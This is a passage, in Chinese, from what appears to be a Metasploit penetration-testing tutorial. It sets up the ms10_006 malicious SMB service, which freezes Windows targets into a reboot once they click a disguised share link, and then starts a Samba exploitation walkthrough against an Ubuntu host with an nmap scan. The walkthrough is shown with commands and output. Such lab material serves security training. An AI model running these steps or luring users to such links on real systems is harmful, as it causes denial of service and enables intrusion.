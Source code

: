 让我们快速设置各种参数。唯一要查找的参数是`SRVHOST`，即本地主机 IP 地址或渗透测试者的 IP 地址。

```
msf auxiliary(ms10_006_negotiate_response_loop) > set SRVHOST 192.168.56.101
SRVHOST => 192.168.56.101 
```

## 工作原理...

我们将使用`run`命令来执行辅助模块。一旦模块执行，它将生成一个共享文件夹链接，必须发送给目标。在这种情况下，生成的链接是`\\192.168.56.101\Shared\Anything`。

```
msf auxiliary(ms10_006_negotiate_response_loop) > run
[*] Starting the malicious SMB service...
[*] To trigger, the vulnerable client should try to access: \\192.168.56.101\Shared\Anything
[*] Server started. 
```

现在我们可以通过制作一个网页并将该链接附加到网页上，然后发送给目标用户，使链接看起来不那么可疑。一旦目标点击该链接，系统将完全冻结，并导致完全的拒绝服务，从而导致系统重新启动。

# 利用 Linux（Ubuntu）机器

Linux 是继 Windows 之后使用最广泛的操作系统之一。在之前的几个示例中，我们看到了如何通过利用可用服务中的关键缺陷来渗透 Windows 机器。在本示例中，我们将处理 Linux 操作系统。我们将在本示例中使用 Ubuntu 9.0，但是对于渗透运行 Samba 服务的任何 Linux 和 Solaris 版本，该过程都是类似的。让我们继续进行本示例。

## 准备工作

我们将从扫描目标 Linux 机器开始，以收集有关可用服务的信息。让我们进行快速的 Nmap 扫描并分析其结果：

```
msf > nmap -sT 192.168.56.101
[*] exec: nmap 192.168.56.101
Starting Nmap 5.20 ( http://nmap.org ) at 2011-11-05 13:35 IST
Warning: Traceroute does not support idle or connect scan, disabling...
Nmap scan report for 192.168.56.101
Host is up (0.00048s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.2.3 ((Ubuntu) PHP/5.2.1)
|_html-title: Index of /
139/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp open netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
MAC Address: 08:00:27:34:A8:87 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ) 
```

现在我们已经收集了有关目标的信息。我们的下一步将是选择一个利用和一个适当的有效载荷。

## 如何做...

渗透 Linux 机器的过程与 Windows 的类似。按照以下步骤进行：

1.  我们需要关注的是选择正确的利用和有效载荷。让我们搜索一下 Metasploit 目录中是否有任何 Samba 利用可用：
